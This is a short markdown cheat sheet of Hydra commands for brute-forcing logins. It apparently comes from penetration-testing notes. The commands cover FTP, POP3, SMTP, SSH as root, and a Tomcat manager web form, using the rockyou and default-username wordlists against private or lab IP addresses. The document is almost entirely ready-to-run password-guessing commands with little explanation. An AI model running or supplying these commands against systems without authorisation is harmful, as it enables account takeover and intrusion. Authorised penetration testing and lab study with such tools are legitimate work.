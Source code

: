 # Hydra Brute Force
### FTP Brute Force:
```
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX ftp -V
```
### POP3 Brute Force:
```
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX pop3 -V
```
### SMTP Brute Force:
```
hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp -V
```
Use -t to limit concurrent connections, example: -t 15
### Web Login Form:
```
hydra -L /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/rockyou.txt -s 8080 -f 10.129.35.106 http-get /manager/html
```

### SSH:
```
hydra -l root -p admin 192.168.1.105 -t 4 ssh
```

